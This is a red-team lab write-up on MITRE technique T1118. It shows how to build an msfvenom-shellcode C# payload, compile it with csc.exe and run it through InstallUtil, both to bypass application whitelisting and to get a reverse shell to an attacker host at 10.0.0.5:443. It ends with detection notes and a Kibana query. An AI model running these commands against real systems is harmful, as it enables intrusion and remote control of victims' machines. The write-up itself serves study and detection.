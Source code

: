 ```yaml
---
description: InstallUtil code execution - bypass application whitelisting.
---
```


# T1118: InstallUtil

## Execution

First of, generate a C\# payload \(with [InstalUtil script](https://github.com/khr0x40sh/WhiteListEvasion)\) that contains shellcode from msfvenom and upload the temp.cs file to victim's machine:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```python
python InstallUtil.py --cs_file temp.cs --exe_file temp.exe --payload windowsreverse_shell_tcp --lhost 10.0.0.5 --lport 443
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Compile the .cs to an .exe:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```bash
PS C:\Windows\Microsoft.NET\Framework\v4.0.30319> .\csc.exe C:\experiments\installUtil\temp.cs
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Execute the payload:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```bash
PS C:\Windows\Microsoft.NET\Framework\v4.0.30319> .\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Windows\Microsoft.NET\Framework\v4.0.30319\temp.exe
Microsoft (R) .NET Framework Installation utility Version 4.0.30319.17929
Copyright (C) Microsoft Corporation.  All rights reserved.

Hello From Uninstall...I carry out the real work...
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Enjoy the sweet reverse shell:

![](../.gitbook/assets/installutil-shell.png)

## Observations

Look for `InstallUtil` processes that have established connections, especially those with cmd or powershell processes running as children - you should treat them as suspicious and investigate the endpoint closer:

![](../.gitbook/assets/installutil-procexp.png)

A very primitive query in kibana allowing to find events where InstallUtil spawns cmd:

{% code-tabs %}
{% code-tabs-item title="kibana" %}
```text
event_data.ParentCommandLine:"*installutil.exe*" && event_data.Image:cmd.exe
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![InstallUtil launching the malicious payload](../.gitbook/assets/installutil-kibana.png)

![csc.exe created a temp.exe which contains the reverse shell payload](../.gitbook/assets/installutils-csc.png)

What is interesting is that I could not see an established network connection logged in sysmon logs, although I could see other network connections from the victim machine being logged.

{% hint style="danger" %}
Will be coming back to this one for further inspection. Need to review the sysmon configuration.
{% endhint %}

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1118\",\"type\":\"link\",\"title\":\"InstallUtil - ATT&CK for Enterprise\"}" %}

{% embed data="{\"url\":\"https://github.com/khr0x40sh/WhiteListEvasion\",\"type\":\"link\",\"title\":\"khr0x40sh/WhiteListEvasion\",\"description\":\"WhiteListEvasion - Collection of scripts, binaries and the like to aid in WhiteList Evasion on a Microsoft Windows Network.\",\"icon\":{\"type\":\"icon\",\"url\":\"https://github.com/fluidicon.png\",\"aspectRatio\":0},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://avatars1.githubusercontent.com/u/6656699?s=400&v=4\",\"width\":400,\"height\":400,\"aspectRatio\":1}}" %}

